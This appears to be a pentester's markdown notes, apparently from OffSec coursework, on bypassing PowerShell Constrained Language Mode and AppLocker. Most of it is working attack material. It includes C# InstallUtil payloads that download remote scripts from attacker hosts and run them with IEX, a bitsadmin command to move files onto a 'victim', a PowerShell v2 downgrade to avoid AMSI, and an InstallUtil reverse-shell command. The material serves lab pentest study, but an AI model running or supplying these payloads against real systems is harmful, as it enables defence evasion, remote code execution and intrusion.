

# You have no Power(Shell) here muahaha


Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```



## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            // String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/lapstoolkit.ps1') | IEX; Get-LAPSComputers | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master


```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
 
namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
 
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/amsi.txt') | IEX;";
            String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/script.txt') | IEX | Out-File -FilePath C:\\windows\\tasks\\output.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            Console.WriteLine("Test1");
 
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            ps.AddScript(cmd2);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            rs.Close();
        }
    }
}
```